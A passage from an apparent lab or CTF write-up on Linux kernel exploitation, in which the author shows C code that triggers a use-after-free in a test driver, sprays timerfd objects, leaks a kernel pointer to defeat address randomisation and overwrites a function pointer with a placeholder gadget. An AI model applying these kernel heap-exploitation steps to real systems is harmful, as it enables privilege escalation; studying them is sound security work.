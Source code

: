 I still tried to do something different, just to replicate it like the above writeup. Get the leak from the first timer, deallocate it by using `close(timer_fd)`, then try to get another `timerfd_ctx` allocated. But no matter how hard I tried, the second `timerfd_ctx` never got allocated into my freed heap with the below code, leading to `0xdeadbeefdeadbe00` never being called.

```c
int vuln_fd = open("/dev/vuln", O_RDWR);
    char *uaf_buf = malloc(alloc_size); //assume not failed
    char *uaf_buf2 = malloc(alloc_size);//assume not failed
	memset(uaf_buf2, 0, alloc_size);
	
	
	struct itimerspec timer_spec = {{0, 0}, {10, 0}};
	int timer_fd, timer_fds[20];
	int spray_count = 0;

	if(ioctl(vuln_fd, ALLOC, &alloc_size) != 0) {
		//assume not failed to reduce text
	}
	if (ioctl(vuln_fd, FREE) != 0) {
		//assume not failed to reduce text
    }

	//allocation 1
	timer_fd = timerfd_create(CLOCK_REALTIME, 0);
	timerfd_settime(timer_fd, 0, &timer_spec, 0);
    close(timer_fd);
	sleep(1);

	if (ioctl(vuln_fd, USE_READ, uaf_buf) != 0) {
        perror("USE_READ failed");
        free(uaf_buf);
    }

	// allocation 2
	for (; spray_count < 20; spray_count++) {
		timer_fds[spray_count] = timerfd_create(CLOCK_REALTIME, 0);
	}
	for(int i = 0; i < spray_count; i++) {
		timerfd_settime(timer_fds[i], 0, &timer_spec, NULL);
	}
	sleep(1);

	
	uint64_t *leak = (uint64_t*)uaf_buf;
	uint64_t timerfd_tmrproc = leak[5];
	base_kernel_address = timerfd_tmrproc - TIMERFD_TMRPROC_OFFSET;
	leak[5] = 0xdeadbeefdeadbe00; // Overwrite with gadget address
	if (ioctl(vuln_fd, USE_WRITE, uaf_buf) != 0) {
		printf("USE_WRITE failed\n");
		goto cleanup;
	}
	wait_for_enter();
```
